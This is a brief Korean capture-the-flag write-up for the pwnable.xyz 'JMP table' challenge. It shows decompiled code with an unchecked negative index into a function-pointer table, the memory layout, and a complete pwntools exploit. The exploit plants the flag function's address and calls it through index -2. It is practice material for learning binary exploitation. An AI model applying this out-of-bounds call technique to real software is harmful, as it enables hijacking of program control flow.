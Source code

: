 # JMP table
* 
~~~c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  signed int v3; // [rsp+Ch] [rbp-4h]

  setup();
  while ( 1 )
  {
    print_menu();
    printf("> ", argv);
    v3 = read_long();
    if ( v3 <= 4 )
      (*(&vtable + v3))();
    else
      puts("Invalid.");
  }
}
~~~
  IDA에서 확인한 code. 보고 음수를 넣을 수 있다고 생각하고 음수를 넣어 core dumped 가 발생하는 것까지 확인
* IDA에서 _ 함수에서 flag를 출력해주는 것 확인
* 
~~~
.data:00000000006020B0                 public size
.data:00000000006020B0 ; size_t size
.data:00000000006020B0 size            dq 1                    ; DATA XREF: do_malloc+1E↑w
.data:00000000006020B0                                         ; do_malloc+25↑r ...
.data:00000000006020B8                 public heap_buffer
.data:00000000006020B8 ; void *heap_buffer
.data:00000000006020B8 heap_buffer     dq 1                    ; DATA XREF: do_malloc+3F↑w
.data:00000000006020B8                                         ; do_malloc+50↑w ...
.data:00000000006020C0                 public vtable
.data:00000000006020C0 vtable          dq offset do_exit  
~~~
IDA를 통해 vtable을 통해 함수들을 실행해주고 그 뒤에 size 주소가 있는 것을 확인
* exploit 방법은 1.옵션으로 size 영역에 _ 함수 주소를 넣어두고 vtable -2 즉 size 영역을 실행해 _ 함수를 실행해줌
~~~python
from pwn import *

p=remote('svc.pwnable.xyz',30007)
e=ELF('./jmptable')

ex=e.symbols['_']

p.sendlineafter('>','1')
p.sendlineafter(':',str(ex))

p.sendlineafter('>','-2')

p.interactive()
~~~
